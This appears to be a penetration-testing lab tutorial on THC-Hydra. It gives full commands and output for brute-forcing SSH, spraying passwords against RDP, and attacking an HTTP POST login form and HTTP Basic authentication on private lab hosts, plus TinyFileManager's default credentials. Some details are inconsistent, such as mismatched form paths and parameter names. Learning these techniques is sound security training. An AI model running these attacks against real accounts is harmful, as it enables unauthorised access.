




# THC-Hydra

[THC Hydra](https://github.com/vanhauser-thc/thc-hydra) is an open-source tool that can execute a broad variety of password attacks against a variety of network services and protocols.

## Password Dictionary Attack

This example will leverage a VM hosted at `192.168.191.201` and will be attacking the SSH protocol hosted at port `2222`. The example will be attacking the account with the username `george`. Assume this has all been discovered at the time of the example.

This example will use the rockyou wordlist which can be found at `/usr/share/wordlists/rockyou.txt`.

The following command will be used:

```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.191.201
```

* `-l`: Specify the username to try password for
* `-P`: Specify the password wordlist
* `-s`: Port number (used when service is running on non-default port)
* `ssh://<IP>`: URL to attack

The resulting output is:

```shell-session
kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.191.201
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-10 17:06:04

...

[2222][ssh] host: 192.168.191.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-10 17:06:13
```

From here it is possible to just log in to the server via SSH:

```shell-session
kali@kali:~$ ssh -p 2222 george@192.168.191.201

...

george@c0af793c27e2:~$ whoami
george
george@c0af793c27e2:~$ exit
logout
Connection to 192.168.191.201 closed.
```

## Password Spraying Attack

If an attacker didn't have valid usernames, they would use enumeration and information gathering techniques to find them. Alternatively, they could also attack built-in accounts such as `root` (on Linux) or `Administrator` (on Windows).

This next example will use a single password against a variety of usernames in a technique known as **password spraying**. While this is an oversimplified example it is mainly to show how the THC Hydra tool can be leveraged for this purpose.

This example will attack RDP on a machine hosted at `192.168.191.202`. Assume the attacker has come across a valid password of "`SuperS3cure1337#`" but has no username associated with the credential. This example will utilize the dirb names.txt list which contains over 8,000 username entries.

The command is as follows:

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.191.202
```

* `-L`: Specifies the list of usernames for the attack
* `-p`: Specifies the password to try with the usernames
* `rd://<IP>`: Specifies protocol and IP

And it results in the following output:

```shell-session
kali@kali:~$ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.191.202
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
...
[DATA] attacking rdp://192.168.191.202:3389/
...
[STATUS] 162.29 tries/min, 1136 tries in 00:07h, 7471 to do in 00:47h, 4 active
[3389][rdp] host: 192.168.191.202   login: Daniel   password: SuperS3cure1337#
```

## HTTP POST Login Form

Most web services come with a default user account, such as `admin`. Using this known username for a dictionary attack will dramatically increase the chances of success and reduce the expected duration of the attack.

This example will show a dictionary attack on the login form of the [TinyFileManager](https://github.com/prasathmani/tinyfilemanager) application, which is running on port 80 on the BRUTE web server (hosted at `192.168.50.201:80`). The login page looks like this:

<figure><figcaption><p>Login form</p></figcaption></figure>

TinyFileManager includes two default users: `admin` and `user`.

The documentation also includes the default  credentials for each account:

* Admin user: `admin:admin@123`
* Normal user: `user:12345`

The first step is obviously to try these credentials, but unfortunately they do not work (would be a pretty terrible example if they did).

After trying and failing to log in with the application's default credentials, the next step is to attack the password of `user` with the `rockyou.txt` wordlist.

In order to do that one first needs to **understand the parameters used by the login form**. This can be achieved by sending a login request to the page and proxying it through BurpSuite:

<figure><figcaption><p>Invalid login request viewed in BurpSuite</p></figcaption></figure>

The parameters used for the username and password are `fm_user` and `fm_pwd` respectively.

Additionally the attacker will **need the server's response to an invalid login reques**t. This will be used by THC-Hydra to filter out failed attempts:

<figure><figcaption><p>Failed login attempt</p></figcaption></figure>

Specifically the attacker is looking for some text that appears **only in** the failed login response. In this example the highlighted text in the screenshot above will do:

```
Login failed. Invalid username or password
```

Examination of the webpage indicates that the login form is hosted at `/login.php`. This will be the target for THC-Hydra.

Also Hydra needs to be told what parameters to use and where to place the substitutions. This is all combined in the string:

```
"/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

The `^PASS^` indicates to Hydra where to substitute the passwords from the wordlist. The command will be:

```
hydra -l user -P /usr/share/wordlists/rockyou.txt -f 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

The full output will be:

```shell-session
kali@kali:~$ hydra -l user -P /usr/share/wordlists/rockyou.txt -f 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.50.201:80/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid username or password
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 16 active
[80][http-post-form] host: 192.168.50.201   login: user   password: 121212
1 of 1 target successfully completed, 1 valid password found
```

The credentials can then be used to log in to the server.

## &#x20;HTTP Header Authentication

Some web applications will leverage a browser's native login prompt functionality via [HTTP Authentication](https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication). The rough premise of HTTP Authentication is that upon navigation to a restricted resource the web server will:

1. Return an `401` (Unauthorized) response
   * In this response the `WWW-Authenticate` header is included to provide information on how to authenticate
2. A client can then respond with an `Authorization` header with the credentials
   * This is often handled by the client's browser, it presents a login prompt to the user and then submits the user-supplied credentials via an appropriate `Authorization` header (conforming to rules in the `WWW-Authenticate` header sent by the server)

[This blog](https://blog.stevensanderson.com/2008/08/25/using-the-browsers-native-login-prompt/) explains in more detail the steps of HTTP Authentication implementation.

Examining this sequence in Burp the first request is seen to receive the 401 response with an included `WWW-Authenticate` header:

<figure><figcaption><p>Initial request and 401 response</p></figcaption></figure>

The second request contains the `Authorization` header with the credentials (Base64 encoded):

<figure><figcaption><p>Second request with Authorization header</p></figcaption></figure>

This information can be fed to Hydra via the following command:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 192.168.204.201 http-head /
```

Which results in the following:

```shell-session
kali@kali:~$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -v -f 192.168.204.201 http-head /
...
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-head://192.168.204.201:80/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-head] host: 192.168.204.201   login: admin   password: 789456
[STATUS] attack finished for 192.168.204.201 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-11 19:13:50
```

The credentials can then be used to sign in to the machine.
